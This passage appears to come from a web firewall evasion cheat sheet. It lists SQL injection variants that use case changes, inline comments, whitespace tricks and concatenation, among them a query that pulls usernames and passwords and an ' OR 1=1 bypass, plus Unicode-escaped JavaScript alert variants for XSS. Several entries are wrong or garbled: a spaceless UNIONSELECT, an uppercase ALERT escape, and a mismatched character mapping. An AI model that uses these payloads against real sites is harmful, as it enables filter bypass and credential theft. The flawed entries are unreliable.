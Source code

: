 ### 3. Case Manipulation
```sql
-- Original
UNION SELECT

-- Evasiones
union select
UnIoN sElEcT
UNION/**/SELECT
uNiOn SeLeCt
```

### 4. Comment Injection
```sql
-- Original
UNION SELECT username,password FROM users

-- Evasiones
UNION/**/SELECT/**/username,password/**/FROM/**/users
UNION-- comment
SELECT username,password-- 
FROM users
UNION#SELECT username,password#FROM users
```

### 5. Whitespace Manipulation
```sql
-- Original
UNION SELECT

-- Evasiones
UNION	SELECT  (tab)
UNION
SELECT  (newline)
UNION/**/SELECT
UNION+SELECT
UNIONSELECT  (sin espacios)
```

### 6. Unicode Obfuscation
```javascript
// Original
alert

// Unicode alternatives
\u0061lert  (a = \u0061)
\u0041LERT  (A = \u0041)
ålert       (usando ä = \u00e1)
```

### 7. Concatenation Splitting
```sql
-- Original
' OR 1=1--

-- Concatenación
' OR CONCAT('1','=','1')--
' OR '1'||'='||'1'--
' OR '1'+'='+'1'--
```
